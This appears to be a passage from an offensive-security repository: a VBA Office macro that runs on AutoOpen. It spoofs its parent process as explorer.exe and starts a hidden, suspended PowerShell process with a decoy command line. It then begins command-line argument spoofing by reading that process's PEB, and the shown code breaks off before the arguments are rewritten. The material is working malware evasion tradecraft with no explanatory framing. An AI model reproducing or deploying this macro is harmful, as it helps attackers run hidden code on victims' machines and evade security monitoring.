 ```csharp
Sub AutoOpen()
    Dim pi As PROCESS_INFORMATION
    Dim si As STARTUPINFOEX
    Dim nullStr As String
    Dim pid, result As Integer
    Dim threadAttribSize As Integer
    Dim parentHandle As LongPtr
    Dim originalCli As String
    
    originalCli = "powershell.exe -NoExit -c Get-Service -DisplayName '*network*' | Where-Object { $_.Status -eq 'Running' } | Sort-Object DisplayName"
    
    ' Get a handle on the process to be used as a parent
    pid = getPidByName("explorer.exe")
    parentHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

    ' Initialize process attribute list
    result = InitializeProcThreadAttributeList(ByVal 0&, 1, 0, threadAttribSize)
    si.lpAttributelist = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, threadAttribSize)
    result = InitializeProcThreadAttributeList(si.lpAttributelist, 1, 0, threadAttribSize)

    ' Set the parent to be our previous handle
    result = UpdateProcThreadAttribute(si.lpAttributelist, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, parentHandle, Len(parentHandle), ByVal 0&, ByVal 0&)

    ' Set the size of cb (see https://docs.microsoft.com/en-us/windows/desktop/api/winbase/ns-winbase-_startupinfoexa#remarks)
    si.STARTUPINFO.cb = LenB(si)
    
    ' Hide new process window
    si.STARTUPINFO.dwFlags = 1
    si.STARTUPINFO.wShowWindow = SW_HIDE

    result = CreateProcess( _
        nullStr, _
        originalCli, _
        ByVal 0&, _
        ByVal 0&, _
        1&, _
        &H80014, _
        ByVal 0&, _
        nullStr, _
        VarPtr(si), _
        pi _
    )
    
    ' Spoofing of cli arguments
    Dim size As Long
    Dim PEB As PEB
    Dim pbi As PROCESS_BASIC_INFORMATION
    Dim newProcessHandle As LongPtr
    Dim success As Boolean
    Dim parameters As RTL_USER_PROCESS_PARAMETERS
    Dim cmdStr As String
    Dim cmd() As Byte
    
    newProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, False, pi.dwProcessId)
    result = NtQueryInformationProcess(newProcessHandle, 0, pbi, Len(pbi), size)
    success = ReadProcessMemory(newProcessHandle, pbi.PEBBaseAddress, VarPtr(PEB), Len(PEB), size)
    ' peb.ProcessParameters now contains the address to the parameters - read them
    success = ReadProcessMemory(newProcessHandle, PEB.ProcessParameters, VarPtr(parameters), Len(parameters), size)
    
```